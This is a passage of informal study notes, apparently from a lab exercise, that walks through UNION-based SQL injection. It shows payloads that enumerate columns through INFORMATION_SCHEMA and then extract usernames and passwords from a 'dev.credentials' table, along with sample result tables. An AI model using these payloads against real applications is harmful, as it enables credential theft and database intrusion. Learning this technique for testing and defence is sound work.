             -   
                
            
            |   |   |   |   |   |   |   |   |   |
            |---|---|---|---|---|---|---|---|---|
            |credentials|||dev|||4|||
            |framework|||dev|||4|||
            |posts|||dev|||4|||
            |pages|||dev|||4|||
            
            - we want dev.credentials

  

in the database dev there is a column called credentials .

now we want to see all columns on this credentials table

  

  

  

  

- List of columns within each table
    
    - in the INFORMATION_SCHEMA database :
    - there is also a columns table that contains the name of the columns of all databases
    - we can use column_name ——→ to get the name of the column
    - table _schema → to get the table that contains this column .
    
    ```
    ' UNION select 1,column_name,table_name,table_schema from INFORMATION_SCHEMA.columns-- -
    ```
    
    |   |   |   |   |   |   |   |   |   |
    |---|---|---|---|---|---|---|---|---|
    |username|||credentials|||dev|||
    |password|||credentials|||dev|||
    |page|||framework|||dev|||
    |page|||posts|||dev|||
    |page|||pages|||dev|||
    
    okay so now we knew that
    
    we have two columns in credentails table that is located in dev database
    
    1. username
    2. password
    
    as we want to union them with another table that shows 3 columns we will use the 3rd column as NULL
    
    ```
    ' union select 1,username,password,NULL from dev.credentials -- -
    ```
    